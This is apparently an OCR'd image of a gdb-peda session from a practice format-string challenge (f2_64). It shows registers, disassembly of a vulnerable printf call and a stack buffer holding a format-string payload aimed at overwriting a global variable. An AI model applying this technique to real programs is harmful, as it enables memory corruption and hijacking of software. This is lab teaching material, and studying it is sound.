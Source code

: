 ```
R9 : 0xd ('\r')
R10: 0x7ffff7dd1b78 --> 0x603010 --> 0x0 
R11: 0x246 
R12: 0x400570 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf10 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400695 <fun0+47>:	lea    rax,[rbp-0x70]
   0x400699 <fun0+51>:	mov    rdi,rax
   0x40069c <fun0+54>:	mov    eax,0x0
=> 0x4006a1 <fun0+59>:	call   0x400530 <printf@plt>
   0x4006a6 <fun0+64>:	
    mov    eax,DWORD PTR [rip+0x2009b0]        # 0x60105c <var0>
   0x4006ac <fun0+70>:	cmp    eax,0x1e6
   0x4006b1 <fun0+75>:	jne    0x4006bd <fun0+87>
   0x4006b3 <fun0+77>:	mov    edi,0x400788
Guessed arguments:
arg[0]: 0x7fffffffddb0 --> 0xde64617878243525 
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb0 --> 0xde64617878243525 
0008| 0x7fffffffddb8 --> 0xabe 
0016| 0x7fffffffddc0 --> 0x0 
0024| 0x7fffffffddc8 --> 0x0 
0032| 0x7fffffffddd0 --> 0x0 
0040| 0x7fffffffddd8 --> 0x0 
0048| 0x7fffffffdde0 --> 0xff00000000000000 
0056| 0x7fffffffdde8 --> 0xff0000000000 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006a1 in fun0 ()
gdb-peda$ x/2x 0x7fffffffddb0
0x7fffffffddb0:	0xde64617878243525	0x0000000000000abe
gdb-peda$ r < p1
Starting program: /Hackery/escape/fmt_str/f2_64/f2_64 < p1

 [----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0xabedead 
RDX: 0x7ffff7dd3790 --> 0x0 
RSI: 0x602018 --> 0x0 
RDI: 0x7fffffffddb0 --> 0xabedead78243525 
RBP: 0x7fffffffde20 --> 0x7fffffffde30 --> 0x400700 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffddb0 --> 0xabedead78243525 
RIP: 0x4006a1 (<fun0+59>:	call   0x400530 <printf@plt>)
R8 : 0x602018 --> 0x0 
R9 : 0xd ('\r')
R10: 0x7ffff7dd1b78 --> 0x603010 --> 0x0 
R11: 0x246 
R12: 0x400570 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf10 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400695 <fun0+47>:	lea    rax,[rbp-0x70]
   0x400699 <fun0+51>:	mov    rdi,rax
   0x40069c <fun0+54>:	mov    eax,0x0
=> 0x4006a1 <fun0+59>:	call   0x400530 <printf@plt>
   0x4006a6 <fun0+64>:	
```